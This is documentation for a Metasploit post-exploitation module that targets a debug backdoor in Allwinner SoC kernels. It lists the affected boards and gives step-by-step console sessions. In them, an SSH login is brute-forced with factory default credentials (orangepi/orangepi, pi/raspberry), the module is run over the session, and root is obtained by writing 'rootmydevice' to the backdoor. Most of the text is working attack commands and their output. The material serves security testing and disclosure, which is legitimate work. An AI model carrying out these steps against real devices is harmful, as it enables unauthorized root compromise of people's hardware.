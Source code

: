   Vulnerable Allwinner SoC chips: H3, A83T or H8 which rely on Kernel 3.4
  Vulnerable OS: all OS images available for Orange Pis,
				 any for FriendlyARM's NanoPi M1,
				 SinoVoip's M2+ and M3,
				 Cuebietech's Cubietruck +
				 Linksprite's pcDuino8 Uno
  Exploitation may be possible against Dragon (x10) and Allwinner Android tablets

This module attempts to exploit a debug backdoor privilege escalation in Allwinner SoC based devices. Implements the Allwinner privilege escalation as documented in [Metasploit issue #6869](https://github.com/rapid7/metasploit-framework/issues/6869).  It is a simple debug kernel module that, when "rootmydevice" is echoed to the process, it escalates the shell to root.

## Usage

To use this module, you need a vulnerable device.  An Orange Pi (PC model) running Lubuntu 14.04 v0.8.0 works, but other OSes for the device (as well as other devices) are also vulnerable.

- `use auxiliary/scanner/ssh/ssh_login`

```
msf auxiliary(ssh_login) > set username orangepi
username => orangepi
msf auxiliary(ssh_login) > set password orangepi
password => orangepi
msf auxiliary(ssh_login) > set rhosts 192.168.2.21
rhosts => 192.168.2.21
msf auxiliary(ssh_login) > exploit

[*] 192.168.2.21:22 SSH - Starting bruteforce
[+] 192.168.2.21:22 SSH - Success: 'orangepi:orangepi' 'uid=1001(orangepi) gid=1001(orangepi) groups=1001(orangepi),27(sudo),29(audio) Linux orangepi 3.4.39 #41 SMP PREEMPT Sun Jun 21 13:09:26 HKT 2015 armv7l armv7l armv7l GNU/Linux '
[!] No active DB -- Credential data will not be saved!
[*] Command shell session 1 opened (192.168.2.229:33673 -> 192.168.2.21:22) at 2016-05-17 21:55:27 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

- `use post/multi/escalate/allwinner_backdoor`

```
msf post(allwinner_backdoor) > set verbose true
verbose => true
msf post(allwinner_backdoor) > set session 1
session => 1
msf post(allwinner_backdoor) > run
```

## Successful exploitation:

```
[+] Backdoor found, exploiting.
[+] Privilege Escalation Successful
[*] Post module execution completed
msf post(allwinner_backdoor) > sessions -i 1
[*] Starting interaction with 1...

2013564244
uHvwyYtCTXENEYdrCoKdgVxTpKlbnqsW
true
RUVRnPJFFgVpuqEiYXdtXpwdDZxVwZPS
TitlDmvnSvINczARsMAKdajpRoXEohXO
0
RtBPRSiAsiGoFatKQVukpjIjGBpJdXqq
id
uid=0(root) gid=0(root) groups=0(root),27(sudo),29(audio),1001(orangepi)
^Z
Background session 1? [y/N]  y
```

## Graceful exit on non-vulnerable devices:

```
msf > use auxiliary/scanner/ssh/ssh_login
msf auxiliary(ssh_login) > set username pi
username => pi
msf auxiliary(ssh_login) > set password raspberry
password => raspberry
msf auxiliary(ssh_login) > set rhosts basementpi
rhosts => basementpi
msf auxiliary(ssh_login) > exploit

[*] 192.168.2.80:22 SSH - Starting bruteforce
[+] 192.168.2.80:22 SSH - Success: 'pi:raspberry' 'uid=1000(pi) gid=1000(pi) groups=1000(pi),4(adm),20(dialout),24(cdrom),27(sudo),29(audio),44(video),46(plugdev),60(games),100(users),106(netdev),996(gpio),997(i2c),998(spi),999(input) Linux basementpi 4.1.19-v7+ #858 SMP Tue Mar 15 15:56:00 GMT 2016 armv7l GNU/Linux '
[!] No active DB -- Credential data will not be saved!
[*] Command shell session 1 opened (192.168.2.229:36438 -> 192.168.2.80:22) at 2016-05-17 22:19:57 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(ssh_login) > use post/multi/escalate/allwinner_backdoor
msf post(allwinner_backdoor) > set verbose true
verbose => true
msf post(allwinner_backdoor) > set session 1
session => 1
msf post(allwinner_backdoor) > run

[-] Backdoor /proc/sunxi_debug/sunxi_debug not found.
[*] Post module execution completed
```
